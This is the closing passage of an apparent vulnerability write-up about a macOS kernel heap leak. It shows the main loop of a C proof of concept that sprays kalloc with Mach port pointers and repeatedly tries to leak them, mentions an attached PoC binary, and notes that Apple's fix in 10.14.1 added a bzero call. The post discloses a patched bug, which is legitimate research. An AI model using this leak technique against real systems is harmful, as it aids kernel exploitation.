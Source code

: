 ```
        }
    }
    
    return leak;
}

int main()
{
    int n_guesses = 0x1100;
    int leak_count = 0;
    
    for (int i = 1; i < n_guesses+1; i++) {
        printf("try id: %d\n", i);
        mach_port_t q = fill_kalloc_with_port_pointer(mach_task_self(), i, MACH_MSG_TYPE_COPY_SEND);
        mach_port_destroy(mach_task_self(), q);
        
        if (try_leak() == true)
            leak_count ++;
        
        if(leak_count > 5)
            break;
    }
    
    return 0;
}

```

PoC binary is also provided, see attched files.

# how did Apple fix this?
In 10.14.1, Apple added calling bzero.  
![heap_free_fix]({{site.url}}{{site.baseurl}}/res/heap_leak.png)  

  [Back Home]({{site.url}}{{site.baseurl}})